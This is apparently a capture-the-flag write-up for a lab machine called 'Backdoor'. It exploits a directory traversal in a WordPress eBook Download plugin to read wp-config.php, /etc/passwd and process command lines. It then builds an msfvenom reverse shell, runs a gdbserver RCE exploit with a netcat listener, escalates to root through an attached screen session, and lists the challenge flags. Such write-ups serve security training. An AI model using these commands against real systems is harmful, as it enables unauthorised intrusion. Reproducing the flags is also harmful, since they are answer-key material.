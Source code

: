 # Backdoor

1. Nmap reveals port 80 and 22

2. Gobuster reveals Wordpress, the first directory is /wp-content which contains plugins, inside plugins folder there is a ebook-download plugin, which searching reveals an exploit available.

````
# searchsploit ebook download
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin eBook Download 1.1 - Directory Traversal                                            | php/webapps/39575.txt
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# cat 39575.txt 
# Exploit Title: Wordpress eBook Download 1.1 | Directory Traversal
# Exploit Author: Wadeek
# Website Author: https://github.com/Wad-Deek
# Software Link: https://downloads.wordpress.org/plugin/ebook-download.zip
# Version: 1.1
# Tested on: Xampp on Windows7

[Version Disclosure]
======================================
http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt
======================================

[PoC]
======================================
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
======================================
````

3. Try to execute the exploit
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

4. Enumerates
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````

5. Enumarates process
````
GET /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../proc/$PID$/cmdline HTTP/1.1
Host: 10.10.11.125
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Connection: close


````
````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:43:04 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 232
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline../../../../../../proc/854/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
````
[man gdbserver](https://sourceware.org/gdb/onlinedocs/gdb/Server.html)

`gdbserver --once 0.0.0.0:1337 /bin/true`

* The --once option allows reusing the same port number for connecting to multiple instances of gdbserver running on the same host, since each instance closes its port after the first connection. 
* 0.0.0.0:1337 listen on any interface on port 1337
* /bin/true name of the program to be debugged

````
HTTP/1.1 200 OK
Date: Fri, 14 Jan 2022 01:32:20 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Transfer-Encoding: Binary
Content-disposition: attachment; filename="cmdline"
Content-Length: 234
Connection: close
Content-Type: application/octet-stream

../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline../../../../../../proc/858/cmdline/bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
````

[man screen](https://linux.die.net/man/1/screen)
`screen -dmS root`
* -dm creates a new session but does not attach to it
* session name root

6. Exploitation 
````
# searchsploit gdbserver
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)                                                   | linux/remote/50539.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
````

````
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 PrependFork=true -o rev.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
````

````
# nc -nlvp 4444
````

````
# python3 50539.py 10.10.11.125:1337 rev.bin
[+] Connected to target. Preparing exploit
[+] Found x64 arch
[+] Sending payload
[*] Pwned!! Check your listener
````

````
# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.221] from (UNKNOWN) [10.10.11.125] 49944
id
uid=1000(user) gid=1000(user) groups=1000(user)
python3 -c "import pty; pty.spawn('/bin/bash')"
user@Backdoor:/home/user$ cat user.txt  
cat user.txt
b43f7cb5891eae348070ac16b82a3a6a
````

7. Privilege escalation
````
user@Backdoor:/home/user$ export TERM='vt100'
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# cat root.txt
cat root.txt
c8d447a5ab07e554a8aa14e86becd194

````
screen -x 
* Attach to a not detached screen session. (Multi display mode). 

[Github pspy](https://github.com/DominicBreuker/pspy/blob/master/README.md)

# Secrets
* FLAG_USER = b43f7cb5891eae348070ac16b82a3a6a
* FLAG_ROOT = c8d447a5ab07e554a8aa14e86becd194
